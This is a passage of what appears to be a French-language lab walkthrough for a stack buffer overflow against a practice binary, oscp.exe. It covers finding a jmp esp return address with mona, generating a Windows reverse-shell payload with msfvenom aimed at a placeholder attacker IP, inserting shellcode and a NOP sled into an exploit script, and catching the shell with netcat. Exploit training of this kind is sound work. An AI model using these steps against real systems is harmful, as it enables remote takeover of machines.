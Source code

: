Avec oscp.exe en cours d'exécution ou en panne, exécutez la commande mona suivante, en veillant à mettre à jour l'option -cpb avec tous les badchars que vous avez identifiés (y compris \x00) :

`!mona jmp -r esp -cpb "\x00"`

Cette commande trouve toutes les instructions "jmp esp" (ou équivalent) dont les adresses ne contiennent aucun des badchars spécifiés. Les résultats doivent s'afficher dans la fenêtre « Données du journal » (utilisez le menu Fenêtre pour y accéder si nécessaire).

Choisissez une adresse et mettez à jour votre script exploit.py, en définissant la variable "retn" sur l'adresse, écrite à l'envers (puisque le système est little endian). Par exemple, si l'adresse est \x01\x02\x03\x04 dans Immunité, écrivez-la comme \x04\x03\x02\x01 dans votre exploit.

Générer une charge utile

Exécutez la commande msfvenom suivante sur Kali, en utilisant votre IP VPN Kali comme LHOST et en mettant à jour l'option -b avec tous les badchars que vous avez identifiés (y compris \x00) :

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c\
`

Copiez les chaînes de code C générées et intégrez-les dans la variable de charge utile de votre script exploit.py en utilisant la notation suivante :

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"\
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"\
...\
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"\
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

## Ajouter des NOP au début

Puisqu'un encodeur a probablement été utilisé pour générer la charge utile, vous aurez besoin d'un peu d'espace en mémoire pour que la charge utile se décompresse. Vous pouvez le faire en définissant la variable de remplissage sur une chaîne de 16 octets ou plus « Aucune opération » (\x90) :

```
padding = "\x90" * 16
```

Exploiter!

Avec le préfixe, le décalage, l'adresse de retour, le remplissage et la charge utile corrects, vous pouvez désormais exploiter le débordement de tampon pour obtenir un shell inversé.

Démarrez un écouteur netcat sur votre box Kali en utilisant le LPORT que vous avez spécifié dans la commande msfvenom (4444 si vous ne l'avez pas modifié).

Redémarrez oscp.exe dans Immunity et exécutez à nouveau le script exploit.py modifié. Votre écouteur netcat devrait attraper un shell inversé !
